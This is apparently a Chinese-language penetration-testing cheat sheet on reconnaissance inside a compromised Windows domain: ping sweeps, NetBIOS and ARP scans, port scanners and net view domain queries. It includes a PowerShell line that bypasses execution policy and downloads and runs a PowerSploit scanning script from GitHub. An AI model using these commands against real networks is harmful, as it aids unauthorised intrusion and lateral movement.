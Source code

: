 探测域内存活主机
利用NetBIOS协议 --- NetBIOS 是局域网程序使用的一种应用程序编程接口（API），为程序提供了请求低级别服务的统一命令集，为局域网提供了网络及其他特殊功能。几乎所有的局域网都是建立在 NetBIOS 协议基础上工作的。NetBIOS 也是计算机的标识名，主要用于局域网中计算机的互访。 NetBIOS 的工作流程就是正常的机器名解析查询应答过程，因此推荐优先使用。
nbtscan是一个扫描 Windows 网络 NetBIOS 信息的小工具，身材娇小，简单快速，但只能用于局域网，可以显示 IP，主机名，用户名称和 MAC 地址等等。nbtscan 有 Windows 和 Linux 两个版本，体积小，不需要安装特殊的库或 DLL 即可运行，传到目标主机上可直接进行扫描。
http://www.unixwiz.net/tools/nbtscan.html

利用ICMP协议 --- 除了利用NetBIOS协议探测内网，还可以利用ICMP协议快速探测内网，用的就是我们平时最常用的ping目录
for /L %I in (1, 1, 254) DO @ping -w 1 -n 1 10.10.10.%I | findstr "TTL="
# /L参数指定以增量方式从开始到结束的一个数字序列，(1,1,254)从1开始，步长为1，最大到254
# -w指的是等待时间为1s
# -n指的是发送一次

利用ARP协议
arp-scan.exe -t 10.10.10.0/24
https://github.com/QbsuranAlang/arp-scan-windows-/tree/master/arp-scan
可以使用empire中的arpscan模块

利用TCP/UDP端口扫描
scanline -h -t 22,80-89,110,389,445,3389,1099,1433,2049,6379,7001,8080,1521,3306,3389,5432 -u 53,161,137,139 -O c:\windows\temp\log.txt -p 192.168.1.1-254 /b

扫描域内端口
Telnet
telnet DC 3389
S 扫描器 --- S 扫描器是早期的一种快熟端口扫描工具，支持大网段扫描，特别适合运行在 Windows Server 2003 以下版本的操作系统中。
s.exe TCP 192.168.1.1 192.168.1.254 445,3389,1433,7001,1099,8080,80,21,22,23,25,110,3306,5432,6379,2049,111 256 /Banner /Save
MSF扫描 --- Metasploit
PowerSploit
# 无文件形式扫描
powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/Invoke-Portscan.ps1'); Invoke-PortScan -Hosts 192.168.1.0/24 -T 4 -ports '80,445,1433,8080,3389' -oA C:\windows\temp\res.txt"
# 文件落地扫描
powershell.exe -exec bypass -Command "& {Import-Module C:\Users\001\Desktop\Invoke-PortScan.ps1; Invoke-PortScan -Hosts 192.168.1.0/24 -T 4 -ports '80,445,1433,8080,3389' -oA C:\Users\001\Desktop\res.txt }" 
Nishang
powershell.exe -exec bypass -Command "& {Import-Module C:\Users\001\Desktop\Invoke-PortScan.ps1; Invoke-PortScan -StartAddress 192.168.1.1 -EndAddress 192.168.1.254 -ResolveHost -ScanPort -TimeOut 500}" 

端口banner信息
文件共享服务端口
远程连接服务端口
Web应用服务端口
数据库服务端口
邮件服务端口
网络常见协议端口
特殊服务端口
收集域内信息
查询域
net view /domain
查询域内所有计算机
net view /domain:de1ay